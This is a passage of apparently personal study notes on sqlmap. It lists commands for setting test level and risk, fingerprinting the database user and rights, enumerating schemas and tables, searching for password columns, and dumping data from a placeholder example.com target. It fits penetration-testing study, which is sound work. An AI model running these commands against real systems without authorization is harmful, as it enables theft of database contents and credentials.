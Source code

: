 **Level/Risk**

For such demands, the options --level and --risk should be used:
- The option --level (1-5, default 1) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
- The option --risk (1-3, default 1) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).
````
$ sqlmap -u www.example.com/?id=1 --level=5 --risk=3
````

### Database Enumeration

Enumeration usually starts with the retrieval of the basic information:
- Database version banner (switch --banner)
- Current user name (switch --current-user)
- Current database name (switch --current-db)
- Checking if the current user has DBA (administrator) rights (switch --is-dba)
````
$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
````
**Database**
````
$ sqlmap -u "http://www.example.com/?id=1" --dbs
$ sqlmap -u "http://www.example.com/?id=1" --current-db
````
**Table Enumeration**
````
$ sqlmap -u "http://www.example.com/?id=1" --tables -D <database>
````
**Dump Data**
````
$ sqlmap -u "http://www.example.com/?id=1" --dump -T <table> -D <database>
$ sqlmap -u "http://www.example.com/?id=1" --dump -D <database>
$ sqlmap -u "http://www.example.com/?id=1" --dump-all
````
**Table/Row Enumeration**

When dealing with large tables with many columns and/or rows, we can specify the columns (e.g., only name and surname columns) with the -C option, as follows:
````
$ sqlmap -u "http://www.example.com/?id=1" --dump -T <table> -D <database> -C <column1>,<column2>
$ sqlmap -u "http://www.example.com/?id=1" --dump -T <table> -D <database> --start=2 --stop=3
````
**Conditional Enumeration**
````
$ sqlmap -u "http://www.example.com/?id=1" --dump -T <table> -D <database> --where="<column1> LIKE 'f%'"
````
**DB Schema Enumeration**
````
$ sqlmap -u "http://www.example.com/?id=1" --schema
````
**Searching for Data**
````
$ sqlmap -u "http://www.example.com/?id=1" --search -T user
$ sqlmap -u "http://www.example.com/?id=1" --search -C pass

T (tables) | C (Columns)
````
